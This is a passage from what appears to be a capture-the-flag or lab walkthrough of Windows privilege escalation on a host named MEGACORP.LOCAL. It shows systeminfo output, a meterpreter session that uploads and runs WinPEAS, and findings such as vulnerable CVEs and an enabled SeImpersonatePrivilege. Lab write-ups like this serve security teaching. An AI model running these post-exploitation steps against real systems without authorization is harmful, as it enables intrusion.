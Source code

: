 ```shell
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 951 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,241 MB
Virtual Memory: In Use:    1,190 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    MEGACORP.LOCAL
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4520724
                           [03]: KB4524244
                           [04]: KB4537764
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.29
                                 [02]: fe80::d141:4e11:82e2:4d82
                                 [03]: dead:beef::d141:4e11:82e2:4d82
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Running this through `wes` does reveal a large number of privilege escalation vulnerabilities, but the CVEs are not readily available as an exploit given a scripted search through exploitdb.

We do need to escalate privileges, though, so let's try another tool called "WinPEAS" aka Windows Privilege Escalation Awesome Scripts.  This checks for several "hattricks" to escalate privileges.

### PEAS

WinPEAS can be downloaded from https://github.com/carlospolop/PEASS-ng and then we can upload it to our target with MSF

```
meterpreter > upload winpeas.exe
meterpreter > execute -f powershell -a "./winpeas.exe > peas.out"
... wait a few minutes for this to finish ...
meterpreter > download peas.out
... in another shell ...
$ more peas.out
```

Interesting snips from peas.out:

```
 [!] CVE-2019-1064 : VULNERABLE
 [!] CVE-2019-1130 : VULNERABLE
 [!] CVE-2019-1315 : VULNERABLE
 [!] CVE-2019-1388 : VULNERABLE
 [!] CVE-2019-1405 : VULNERABLE
 [!] CVE-2020-1013 : VULNERABLE
 [*] Finished. Found 6 potential vulnerabilities.
...
    LSA Protection is not enabled
    CredentialGuard is not enabled
...
    No AV was detected!!
...
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
...
```